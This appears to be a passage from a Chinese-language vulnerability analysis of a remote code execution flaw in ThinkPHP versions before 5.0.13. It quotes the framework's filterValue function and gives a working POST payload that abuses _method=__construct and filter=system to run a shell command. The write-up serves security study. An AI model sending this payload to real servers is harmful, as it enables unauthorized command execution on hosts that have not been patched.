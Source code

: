 ```
    }

private function filterValue(&$value, $key, $filters)
{
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    // filter函数不存在时, 则使用filter_var进行过滤
                    // filter为非整形值时, 调用filter_id取得过滤id
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }
        return $this->filterExp($value);
    }
```

**NO.3 POC2**

**1、ThinkPHP<5.0.13**

_method=__construct&method=get&filter=system&s=whoami

**漏洞定位**

同样的_method=__construct 这个变量表示了还是在走 $this->{$this->method}($_POST) 这条路

**漏洞分析**

跟进__construct 函数，这里进行了一个循环，这里传入的是一个 POST 传入的四个键值对，这里执行了 $this->(键) = 值，那么经过这个循环之后 $request 对象里的 method 的值为 get，filter=system

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JX3DXXea1WpyuJkXwAq0YRpwQIA9QQ0ZYKYiaUVZlXnHibt59Q7vuvicb44kcbjxVf5KNKuiagRtqnTbw/640?wx_fmt=png)

那么此时 $this->filter=system ,$this->method=GET，这里要重新把 $this->method 赋值是为了兼容之前的版本下图是 5.0.20 的版本，在 5.0.8 之前 是没有三元判断的，所以在这里如果不重新赋值就会去 $rules 数组里找 $method 的值，很显然传入的__construct 是不在里面的，所以会导致报错。

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JX3DXXea1WpyuJkXwAq0YRpXYhDO17Zp5YU5qXgg01Rp8ZERVnDRhzsDlrVW9qryH1eHX3ozOibRVQ/640?wx_fmt=png)
